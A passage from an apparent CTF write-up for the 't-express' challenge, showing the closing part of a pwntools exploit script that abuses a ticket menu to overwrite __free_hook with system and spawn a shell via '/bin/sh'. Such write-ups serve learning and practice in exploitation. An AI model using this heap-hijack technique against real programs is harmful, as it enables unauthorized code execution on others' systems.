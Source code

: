 ```python
	p.sendlineafter('choice: ', '3')
	p.sendlineafter('Index of ticket: ', '0')
	p.sendlineafter('(1/2/3/4):', '1')

p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '1')
p.sendlineafter('(1/2/3/4):', '1')
gdb.attach(p)

# AW
p.sendlineafter('choice: ', '1')
p.sendlineafter('(1/2): ', '2')
p.sendlineafter('First name: ', p64(free_hook))
p.sendlineafter('Last name: ', 'Fabu1ous')

p.sendlineafter('choice: ', '1')
p.sendlineafter('(1/2): ', '1')
p.sendlineafter('First name: ', b'/bin/sh\x00')
p.sendlineafter('Last name: ', 'Fabu1ous')

p.sendlineafter('choice: ', '1')
p.sendlineafter('(1/2): ', '1')
p.sendlineafter('First name: ', p64(system))
p.sendlineafter('Last name: ', 'Fabu1ous')

p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '1')

p.interactive()
```

![](sstf-t-express/image17.png)

Q.E.D